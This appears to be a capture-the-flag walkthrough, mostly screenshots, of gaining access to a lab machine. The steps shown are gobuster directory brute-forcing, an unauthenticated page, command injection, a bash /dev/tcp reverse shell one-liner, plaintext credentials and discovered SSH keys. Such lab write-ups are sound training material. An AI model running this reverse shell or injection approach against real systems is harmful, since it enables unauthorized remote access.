 ## Description

![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !

![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
<br/>Note : <br/>
<ul>
<li>dir specify brute force the directory <li/>
<li>-u specify the web browser url<li/>
<li>-w specify the dictionary path for the attack<li/>
<li>-t specify how many thread to be used for the attack<li/> 
<li>-o specify output file name<li/>
</ul>
and we found the hidden directory named :

"home.php" 

![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






